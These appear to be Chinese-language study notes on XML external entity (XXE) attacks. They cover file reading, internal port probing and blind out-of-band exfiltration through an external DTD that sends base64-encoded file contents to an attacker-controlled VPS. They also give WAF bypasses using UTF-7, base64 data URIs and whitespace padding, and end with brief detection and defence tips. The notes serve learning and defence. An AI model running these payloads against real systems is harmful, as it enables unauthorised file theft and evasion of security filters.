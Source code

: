 
###  一、xml簡介
一种存储和传输数据的标签语言。xml不适用预定义的标签，因此可以为标记指定描述数据的名称
文档结构：
	xml文档声明，在文档第一行
	xml文档类型定义
	xml文档元素
dtd文档类型定义：（漏洞产生在文档类型定义处，外部声明dtd处）
	![[Pasted image 20231221090308.png]]

### 二、xxe漏洞基础：
 ![[Pasted image 20231221090530.png]]
### 三、xxe漏洞利用：
#### 1、有回显利用：
##### 读取文件：
```xml
<?xml version= "1.0" encoding= "utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY aaa SYSTEM "php://filter/convert.base64-encode/resource=xxe_1.php" >]>
<name>&aaa;</name>



<!ENTITY aaa SYSTEM "php://filter/convert.base64-encode/resource=xxe_1.php" >]>
<!ENTITY aaa SYSTEM "file:///C:/Windows/win.ini" >]>
```
	![[Pasted image 20231221091455.png]]
##### 内网探测：
bp爆破ip的d字段可以探测内网可用主机，bp爆破端口可以探测内网主机开启的端口
```xml
<?xml version= "1.0" encoding= "utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80">]>
<name>&xxe;</name>
```
	![[Pasted image 20231221091721.png]]

##### 引入外部实体dtd：
```XML
<!--payload-->
<?xml version= "1.0"?>
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://192.168.43.117/eval.dtd">
%dtd;
]>
<name>&send;</name>

<!--eval.dtd-->
<!ENTITY send SYSTEM "file:///C:/windows/win.ini">

在192.168.43.117这台vps上的eval.dtd所在目录开启http服务
python -m http.server 80
```
	![[Pasted image 20231221092209.png]]
	![[Pasted image 20231221092252.png]]



#### 2、无回显利用：
##### 加载外部dtd
```xml
test.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=C:/windows/win.ini"><!--读取文件存放到file中-->
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://192.168.43.117:8080/?abc=%file;'>"> %payload;<!--将文件作为参数发送请求到我们自己的vps中，最终的数据会存放到我们的访问日志中-->

payload
<?xml version= "1.0"?>
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://192.168.43.117:8080/xxe/test.dtd">
%dtd;
%send;
]>
```
![[Pasted image 20231221101242.png]]
##### 加载外部xml

![[Pasted image 20231221101755.png]]





### 四、xxe漏洞探测
白盒：
simplexml_load_string()函数
黑盒：
1、看content-type类型：是否为application/xml
2、看数据提交格式：抓包看提交数据格式是否类似标签格式
3、contenttype和格式都不是，并且你确定有xxe，就可以改contenttype类型
![[Pasted image 20231221102131.png]]
### 五、xxe-绕过
#### 1、utf-7编码
```
UTF-7编码：

<?xml version= "1.0" encoding= "UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```
#### 2、base64编码
```
<!DOCTYPE test [ <!ENTITY % init SYSTEM

"data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
#### 3、空格绕过
通常XXE漏洞存在于XML文档的开头，有的WAF会检测XML文档中开头中的某些子字
符串或正则表达式，但是XML格式在设置标签属性的格式时允许使用任何数量的空格，
因此我们可以在<?xml?>或<!DOCTYPE>中插入数量足够多的空格去绕过WAF的检测。
```
<?xml                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    
version= "1.0" encoding= "utf-8"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert-base64.encode/resource=/flag.txt">
<!ENTITY % remote SYSTEM "http://vps-ip/test.dtd">
%remote;
%dtd;
%xxe;
]>
```

### 六、防御
#### 1、使用开放语言禁用xxe
```php
libxml_disable_entity_loader(true);
```
#### 2、过滤
过滤<!DOCTYPE>, <!ENTITY>, SYSTEM，file://,http:// 等